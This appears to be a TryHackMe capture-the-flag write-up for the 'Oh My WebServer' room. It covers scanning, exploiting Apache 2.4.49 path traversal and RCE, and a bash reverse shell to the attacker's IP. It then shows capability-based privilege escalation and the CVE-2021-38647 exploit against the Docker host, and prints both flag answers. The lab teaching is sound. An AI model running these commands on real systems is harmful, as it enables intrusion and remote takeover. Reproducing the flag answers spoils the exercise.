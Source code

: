![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d5b0f38f-557a-4e16-8f85-3fe19e513ec8)# [Oh My WebServer](https://tryhackme.com/room/ohmyweb)

> Can you root me?

## Scanning

scan the target

```
nmap -A -T4 10.10.178.132
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5f4decf1-372d-4c0c-bbca-9648f7b4e585)

## HTTP

check the webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/715ecf83-e9db-437e-bc0e-d23a73f82eb3)

## Enumeration

scan the directory

```
gobuster dir -u http://10.10.178.132/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ff5db961-7d32-40b1-b4c3-0bca9668cf70)

we have an assets for all file in here

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d778b509-88ad-4220-a05c-05961e2231ac)

and cgi-bin can use for access any assets

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/41170e8e-064f-4468-99ba-9884f4b9c911)

## Exploitation

let's find some exploit

```
searchsploit apache 2.4.49
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cc44119e-061a-4240-8407-6ec615bdfbc9)

```
searchsploit -m 50383.sh
echo http://10.10.178.132 > target.txt
```

and you can use like that

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ecdf8d1d-2952-4d28-a4f5-84e180e94718)

do a reverse shell

```
./50383.sh target.txt /bin/bash "bash -i >& /dev/tcp/10.18.37.45/4444 0>&1"
```

```
nc -vlnp 4444
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d8ac4be3-ca75-4dde-8bff-f220e00740ae)

it's seem we are in docker container

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a6e4bc20-eadb-4dc0-b05b-791c5ab95de3)

and there is no flag inside docker, check for capibilities

```
getcap -r / 2>/dev/null
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f758deb0-7c70-49c4-af0e-0cd8632f3647)

leverage it

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e88ee2b9-9d4c-4b2f-96b9-f0284c4d3b9a)

```
python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e66a2595-9be3-486e-beaa-0eabbba4b43d)

our flag is on root folder of the container

| Flag | user.txt |
| --- | --- |
| Answer | THM{eacffefe1d2aafcc15e70dc2f07f7ac1} |

## Privilege Escalation

now, we need to escalation to real machine, not docker

guess that the host is 172.17.0.1, since we are on 172.17.0.2

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b3d458ee-7f26-4594-844c-f7632f32c12a)

now, it need the support of nmap

on attacker machine

```
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
python3 -m http.server
```

on target machine

```
curl http://10.18.37.45:8000/nmap -o nmap
chmod 777 nmap
```

now we can use nmap

```
./nmap 172.17.0.1 -p- --min-rate 5000
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up (0.00042s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

search for port 5986 service exploit, i found CVE-2021-38647

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/99dd1892-a1a2-440e-9038-4bf183a1604d)

clone to attacker machine

```
git clone https://github.com/AlteredSecurity/CVE-2021-38647
cd CVE-2021-38647
python3 -m http.server
```

on target machine

```
curl http://10.18.37.45:8000/CVE-2021-38647.py -o CVE-2021-38647.py
curl http://10.18.37.45:8000/Invoke-CVE-2021-38647.ps1 -o Invoke-CVE-2021-38647.ps1
```

now, exploit as following

```
python3 CVE-2021-38647.py -t 172.17.0.1 -c 'id'
python3 CVE-2021-38647.py -t 172.17.0.1 -c 'hostname'
python3 CVE-2021-38647.py -t 172.17.0.1 -c 'uname -a'
```

we have exploited on actual machine

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d6beda09-7ad8-4fdd-9163-371d24b3845a)

```
python3 CVE-2021-38647.py -t 172.17.0.1 -c 'cat /root/root.txt'
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7ed9cce8-4983-4a05-ae5f-ab6ab8c310e0)

| Flag | root.txt |
| --- | --- |
| Answer | THM{7f147ef1f36da9ae29529890a1b6011f} |
